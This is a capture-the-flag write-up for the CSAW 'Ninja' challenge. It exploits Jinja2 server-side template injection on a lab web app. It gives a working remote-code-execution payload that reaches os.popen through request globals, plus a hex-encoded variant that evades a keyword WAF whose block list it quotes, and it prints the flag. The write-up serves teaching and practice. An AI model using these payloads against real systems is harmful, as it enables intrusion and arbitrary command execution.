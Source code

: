 # Ninja

> Hey guys come checkout this website i made to test my ninja-coding skills.
> 
> http://web.chal.csaw.io:5000

## Description

The website only has a field where we can input stuff, and it is reflected to us on another page.

![](../images/ninja.png)

We can inject javascript but that will not help us.

I tried inputting `{{ 2*2 }}` and I got back `4`! So our input is interpreted server-side.

By inputting `{{ self }}` I got back `<TemplateReference None>`: Google tells me this is `jinja2` running.

[OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) has a page which lists examples strings to exploit jinja2 SSTI.

Sadly, there is also a WAF preventing us from inputting every string:
> Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base

## Solution

What I want to do is remote code execution using this injection:
```python
{{request.application.__globals__.__builtins__.__import__('os')['popen']('ls')['read']()}}
```

However `_` is forbidden, so I transform it to:
```python
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}
```

Thus I can encode forbidden characters, in this case `_`, `import`, `popen` and `os`. This gives me the following string:
```python
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('ls')['read']()}}
```

Well this work, I just need to replace `ls` by `cat flag.txt` to get the flag.

Flag: `flag{m0mmy_s33_1m_4_r34l_n1nj4}`
